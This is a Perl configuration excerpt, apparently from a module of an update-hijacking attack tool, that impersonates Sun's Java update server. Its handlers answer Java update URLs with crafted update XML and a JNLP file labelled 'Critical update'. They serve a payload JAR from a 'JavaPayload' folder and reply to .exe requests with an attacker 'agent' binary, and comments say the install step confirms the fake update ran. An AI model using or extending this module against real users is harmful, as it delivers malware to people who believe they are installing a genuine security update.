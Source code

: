 ``` perl
    'request' => [
    #Each object it's a possible HTTP request inside the virtualhost configured for the module (java.sun.com)
        {
        'req' => '(/update/[.\d]+/map\-[.\d]+.xml|/update/1.6.0/map\-m\-1.6.0.xml)', #The required URL, regex friendly
        'type' => 'file', #it's the response type (file|string|agent|install)
         #we can use:
                      #file: response with content file referenced in the "file" option below (./include/sunjava_map.xml)
                      #string: response with a string referenced in the "string" options below
                      #agent:  response with content file referenced in the "agent" options (options section)
                      #install: response with content file referenced in the "file" option below
                        #It's used to know if the fake update was executed
                        #In some update process we can specify a final page after update installed
                        #so we send to a controller page.
        'method' => '', #not implemented yet
        'bin'    => '', #set to 1 if we are going to send a binary file
        'string' => '', #if we have chosen the 'type' string then in this variable we set the response
        'parse' => '', #set to 1 if the file or string need be parsed with options
        'file' => './include/sunjava/sunjava_map.xml'
        },

        {
        'req' => '^/java_update.xml$', #regex friendly
        'type' => 'file', #file|string|agent|install
        'method' => '', #any
        'bin'    => '',
        'string' => '',
        'parse' => '1',
        'file' => './include/sunjava/sunjava_update.xml'
        },
        {
        'req' => '/x.jnlp', #regex friendly
        'type' => 'file', #file|string|agent|install
        'method' => '', #any
        'bin'    => '',
        'string' => '',
        #In this case we parse the file
                    'parse' => '1',
        #To parse the file we use special tags, like <%OPTIONAME%> inside the "file" or "string" field
              #This tags are replaced with the values of the options, for example
              #<%TITLE%> will be replaced by 'Critical update'
        'file' => './include/sunjava/x.jnlp'
        },
        {
        'req' => '.jar', #regex friendly
        'type' => 'file', #file|string|agent|install
        'method' => '', #any
        'bin'    => 1,
        'string' => '',
        'parse' => '',
        'file' => './include/sunjava/JavaPayload/FunnyClass2.jar'
        },

        {
        'req' => '.exe', #regex friendly
        'type' => 'agent', #Here we have an agent type with a binary response
        'bin'    => 1,
        'method' => '', #any
```
